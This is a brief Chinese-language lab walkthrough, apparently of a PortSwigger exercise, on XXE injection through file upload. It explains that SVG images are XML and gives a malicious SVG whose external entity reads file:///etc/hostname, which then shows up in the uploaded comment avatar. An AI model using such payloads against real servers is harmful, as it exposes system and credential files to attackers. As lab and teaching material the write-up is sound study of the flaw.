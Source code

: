 通过文件上传进行XXE攻击

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML格式的示例是Office文档格式（例如DOCX）和图像格式（例如SVG）。

例如：

一个应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG之类的格式，使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，因此攻击者可以提交恶意的SVG图像，从而到达XXE漏洞的隐藏攻击面。



文章评论处可以上传图片，发现可以上传svg格式的图像

尝试进行xxe攻击

1.svg内容

```javascript
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg
```

上传文件，



在评论，头像处可以看到file:///etc/hostname内容

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/4454373D11E2493A9274644261DB2BFDclipboard.png)



提交即可